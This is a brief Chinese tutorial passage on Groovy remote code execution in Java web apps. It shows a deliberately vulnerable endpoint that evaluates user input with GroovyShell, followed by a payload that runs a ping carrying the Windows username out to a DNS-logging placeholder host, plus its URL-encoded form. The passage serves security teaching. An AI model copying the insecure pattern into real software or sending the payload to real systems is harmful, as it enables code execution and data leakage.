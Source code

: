 4、Groovy
========

Groovy 是一种基于 **Java 平台**的 **动态脚本语言**，语法简洁、灵活，兼容 Java，并能与 Java 无缝集成。可以把 Groovy 看成是 “更轻量、更灵活的 Java”。

如果不安全的Groovy接口由用户可控，那么就很容易造成RCE漏洞

_示例代码_

        @GetMapping("groovy")
        public void groovyshell(String content) {
            GroovyShell groovyShell = new GroovyShell();
            groovyShell.evaluate(content);
        }
    

上述代码开启了一个GroovyShell，并且执行的参数用户可控

因此可以构造Payload执行Groovy命令，构造

    def cmd="cmd /c ping %USERNAME%.your.dnslog.cn"
    cmd.execute()
    

经过URL编码后为

    def%20cmd%3D%22cmd%20/c%20ping%20%25USERNAME%25.your.dnslog.cn%22%0Acmd.execute%28%29
    

最终成功触发DNS回显验证

![](https://img2024.cnblogs.com/blog/2588316/202506/2588316-20250606192744740-1059375887.png)